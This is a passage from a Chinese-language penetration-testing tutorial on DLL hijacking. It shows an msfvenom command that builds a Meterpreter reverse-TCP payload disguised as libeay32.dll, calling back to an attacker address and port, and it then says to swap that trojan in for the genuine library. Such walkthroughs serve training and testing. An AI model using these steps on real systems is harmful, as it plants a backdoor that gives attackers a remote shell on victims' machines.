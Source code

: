 ### 3.1.2. MSF制作dll木马

这里我们选中libeay32.dll文件，我们就制作这个木马。

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.10.20  lport=5566 -f dll >libeay32.dll
```

![image-20230329110128144](assets/cGA1YFhluzvM2t4.png)

### 3.1.3. 替换dll文件

这里将生成的dll文件替换原本的dll。

<img src="assets/Ah36wfBVv8YHxd1.png" alt="image-20230329110325242" style="zoom: 80%;" />

